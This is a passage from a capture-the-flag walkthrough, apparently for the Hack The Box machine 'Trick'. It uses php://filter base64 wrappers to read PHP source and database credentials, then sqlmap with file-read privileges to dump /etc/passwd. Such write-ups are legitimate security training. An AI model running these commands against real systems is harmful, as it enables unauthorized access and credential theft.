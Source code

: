 We get a base64 response back. It seems like the webpage is adding a .php extension at the end. Let’s read the index.php page:

```bash
php://filter/read=convert.base64-encode/resource=index

result:

....
<?php
	session_start();
  if(!isset($_SESSION['login_id']))
    header('location:login.php');
 include('./header.php'); 
 // include('./auth.php'); 
 ?>
 ....
```

Looking through the code, let’s also get auth.php

```bash
php://filter/read=convert.base64-encode/resource=auth

#It's not here, let's look at login

php://filter/read=convert.base64-encode/resource=login

#this leads us to look at db_connect.php
php://filter/read=convert.base64-encode/resource=db_connect

Now we have credentials for user remo
```

However, we can only do so much with reading php files. Let’s try sqlmap to get read acccess on the system:

```bash
#Check privilege
sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege

result:
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE
    
#we can read files
sqlmap -r login.req --risk 3 --level 5 --technique=BEU --batch --privilege --file-read=/etc/passwd
```

Now read the /etc/passwd file and search for sh to see what users are available on the system.

```bash
grep sh$ /home/billy/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd

result:
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

```
